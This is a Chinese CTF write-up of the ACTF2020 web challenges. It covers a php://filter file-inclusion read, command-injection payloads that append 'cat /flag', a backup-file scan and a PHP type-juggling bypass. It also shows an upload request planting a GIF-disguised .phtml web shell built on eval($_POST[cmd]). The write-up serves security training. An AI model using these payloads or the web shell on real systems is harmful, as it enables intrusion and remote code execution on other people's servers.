 ```yaml
---
title: ACTF2020刷题
date: 2020-04-26 12:42:45
updated: 2020-04-26 12:42:45
tags:
 - 刷题记录
 - wp
 - web
categories:
 - 刷题记录
---
```


# web

## Include

简单为协议包含

<!--more-->

```
?file=php://filter/convert.base64-encode/resource=flag.php  然后base64解密

echo "Can you find out the flag?";
//flag{9dc5b2d8-37cf-45a6-b5a3-68b3d5c6c2e5}

```

## Exec

没有进行过滤处理，考的是linux的知识点。一行linux语句如何执行多条linux语句。使用`&&`连接，或者分号`;`隔开。也可以使用管道符号`｜`

但是在此处只能使用｜和分号。（不太清楚）

payload

```
127.0.0.1 | cat /flag
或者
127.0.0.1;cat /flag
```

## BackupFile

扫描目录发现备份文件

```bash
sunny250@kali ~ # dirb http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/ ~/web/dictionaries/CTFwebdir.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 26 13:01:43 2020
URL_BASE: http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/
WORDLIST_FILES: /Users/sx/web/dictionaries/CTFwebdir.txt

-----------------

GENERATED WORDS: 53                                                            

---- Scanning URL: http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/ ----
+ http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/index.php.bak (CODE:200|SIZE:347)
+ http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/flag.php (CODE:200|SIZE:0)
                                                                               
-----------------
END_TIME: Sun Apr 26 13:01:46 2020
DOWNLOADED: 53 - FOUND: 2

```

访问index.php.bak得到源码

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

若类型比较会先转换，字符串于整型对比，都会转换成整型。

>[参考文章](https://www.php.net/manual/zh/language.operators.comparison.php)
>
>[intval函数](https://www.php.net/manual/en/function.intval.php)

输入key=123即可



## Upload

打开题目是一个灯，鼠标移动到灯泡之后可以看见一个上传界面

直接上传1.php发现被禁止，尝试掐后缀，发现phtml可以

```http
POST / HTTP/1.1
Host: 32d2077b-2b33-467c-93db-234875e1f69e.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------380150826415384369013004740571
Content-Length: 406
Origin: http://32d2077b-2b33-467c-93db-234875e1f69e.node3.buuoj.cn
Connection: close
Referer: http://32d2077b-2b33-467c-93db-234875e1f69e.node3.buuoj.cn/
Upgrade-Insecure-Requests: 1

-----------------------------380150826415384369013004740571
Content-Disposition: form-data; name="upload_file"; filename="1.phtml"
Content-Type: image/gif

GIF89a
<script language="php"> 
eval($_POST[cmd]);
</script>
-----------------------------380150826415384369013004740571
Content-Disposition: form-data; name="submit"

upload
-----------------------------380150826415384369013004740571--
```

然后得到上传地址，使用蚁剑连接，拿flag

